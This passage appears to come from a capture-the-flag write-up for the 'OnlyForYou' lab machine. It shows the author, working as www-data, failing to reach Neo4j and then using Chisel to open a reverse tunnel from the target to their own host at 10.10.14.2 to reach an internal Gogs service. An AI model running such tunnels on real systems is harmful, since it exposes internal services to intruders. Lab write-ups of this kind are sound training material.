 Ports 7687 and 7474 are used by [Neo4j](https://neo4j.com/docs/operations-manual/current/configuration/ports/), I tried connecting to it, but I was not allowed.

```bash
www-data@only4you:~/only4you.htb$ neo4j
/usr/bin/neo4j: line 8: /usr/share/neo4j/bin/neo4j: Permission denied
/usr/bin/neo4j: line 8: exec: /usr/share/neo4j/bin/neo4j: cannot execute: Permission denied
```

### Gogs

I found ports 3000 and 8001. To access them, I downloaded [Chisel](https://github.com/jpillora/chisel) on the box and used it to create a reverse tunnel.

I launched the server on my machine.

```bash
./chisel server -p 3477 --reverse
```

Then on the server I created the reverse tunnel on port 3000.

```bash
./chisel client 10.10.14.2:3477 R:3000:localhost:3000/tcp
```

I opened `localhost:3000` in my browser.

![Gogs](/assets/images/2023/08/OnlyForYou/Gogs.png "Gogs")
